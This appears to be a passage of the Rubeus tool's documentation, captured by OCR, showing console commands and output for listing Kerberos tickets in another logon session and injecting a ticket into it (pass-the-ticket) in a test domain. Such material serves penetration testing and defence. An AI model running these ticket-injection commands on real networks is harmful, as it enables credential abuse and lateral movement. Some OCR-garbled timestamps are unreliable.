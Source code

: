 
**Elevated** ticket application to another logon session:

 C:\Rubeus>Rubeus.exe klist /luid:0x474722b

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.3



 [*] Action: List Kerberos Tickets (All Users)

 [*] Target LUID : 0x474722b

 UserName : patsy
 Domain : TESTLAB
 LogonId : 0x474722b
 UserSID : S-1-5-21-883232822-274137685-4173207997-1169
 AuthenticationPackage : Kerberos
 LogonType : Interactive
 LogonTime : 2/11/2019 1053 PM
 LogonServer : PRIMARY
 LogonServerDNSDomain : TESTLAB.LOCAL
 UserPrincipalName : patsy@testlab.local

 [0] - 0x12 - aes256_cts_hmac_sha1
 Start/End/MaxRenew: 2/11/2019 253 PM ; 2/11/2019 753 PM ; 2/12019 253 PM
 Server Name : krbtgt/TESTLAB.LOCAL @ TESTLAB.LOCAL
 Client Name : patsy @ TESTLAB.LOCAL
 Flags : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)


 C:\Rubeus>Rubeus.exe ptt /luid:0x474722b /ticket:doIFmjCCBZagAwIBBaEDAgEWoo..(snip)..

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.3


 [*] Action: Import Ticket
 [*] Target LUID: 0x474722b
 [+] Ticket successfully imported!

 C:\Rubeus>Rubeus.exe klist /luid:0x474722b
